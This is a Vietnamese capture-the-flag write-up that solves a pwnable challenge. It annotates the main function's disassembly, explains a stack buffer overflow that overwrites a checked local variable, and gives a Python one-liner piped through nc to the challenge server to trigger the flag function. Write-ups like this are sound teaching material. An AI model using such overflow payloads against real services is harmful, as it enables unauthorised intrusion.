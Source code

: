 **Free_real_estate**
---
Binary Exploitation

Description:
---
> Nothing

Solution:
---
Như cái tên đề bài thì đây là bài free điểm, nhưng mà :joy: Chạy thử xem nào :point_down:

![](/Vong_loai_PTIT/Pwnable/Free_real_estate/1.PNG)

Xem ra có 1 chỗ nhập, disassembly ra xem `main` nào:

```asm
   0x08048671 <+10>:	push   ebp
   0x08048672 <+11>:	mov    ebp,esp
   0x08048674 <+13>:	push   ecx
   0x08048675 <+14>:	sub    esp,0x24
   0x08048678 <+17>:	call   0x80485bb <init>
   0x0804867d <+22>:	mov    DWORD PTR [ebp-0xc],0x4d2
   0x08048684 <+29>:	sub    esp,0xc
   0x08048687 <+32>:	push   0x8048792
   0x0804868c <+37>:	call   0x8048450 <puts@plt>
   0x08048691 <+42>:	add    esp,0x10
   0x08048694 <+45>:	sub    esp,0x8
   0x08048697 <+48>:	push   0x32
   0x08048699 <+50>:	lea    eax,[ebp-0x24]; <--- Buffer nhập vào nằm ở [ebp-0x24]
   0x0804869c <+53>:	push   eax
   0x0804869d <+54>:	call   0x8048628 <readin>; <--- Hàm đọc đây rồi, nhìn lên <+48> thì hàm này cho nhập 0x32 bytes
   0x080486a2 <+59>:	add    esp,0x10
   0x080486a5 <+62>:	sub    esp,0x8
   0x080486a8 <+65>:	lea    eax,[ebp-0x24]
   0x080486ab <+68>:	push   eax
   0x080486ac <+69>:	push   0x80487a2
   0x080486b1 <+74>:	call   0x8048430 <printf@plt>
   0x080486b6 <+79>:	add    esp,0x10
   0x080486b9 <+82>:	cmp    DWORD PTR [ebp-0xc],0x1b39; <--- DWORD PTR [ebp-0xc] == 0x1b39 ? secret() : Bye! 
   0x080486c0 <+89>:	jne    0x80486c9 <main+98>
   0x080486c2 <+91>:	call   0x804860f <secret>; <--- secret() là hàm in flag ra nhé
   0x080486c7 <+96>:	jmp    0x80486d9 <main+114>
   0x080486c9 <+98>:	sub    esp,0xc
   0x080486cc <+101>:	push   0x80487b0
   0x080486d1 <+106>:	call   0x8048430 <printf@plt>
   0x080486d6 <+111>:	add    esp,0x10
   0x080486d9 <+114>:	mov    eax,0x0
   0x080486de <+119>:	mov    ecx,DWORD PTR [ebp-0x4]
   0x080486e1 <+122>:	leave  
   0x080486e2 <+123>:	lea    esp,[ecx-0x4]
   0x080486e5 <+126>:	ret
```
Tóm lại là từ `[ebp-0x24]` đến `[ebp-0xc]` có `0x18` bytes. Mà `readin` lại cho nhập vào `0x32` bytes. Ăn thôi :yum:

> Gõ terminal đập phát chết luôn, khỏi cần code:
```bash
python -c 'print "A"*0x18 + "\x39\x1b\x00\x00"' | nc 3.91.78.13 10004
```
Vẫn không hiểu sao flag thiếu chữ P nhỉ ?

![](/Vong_loai_PTIT/Pwnable/Free_real_estate/2.PNG)
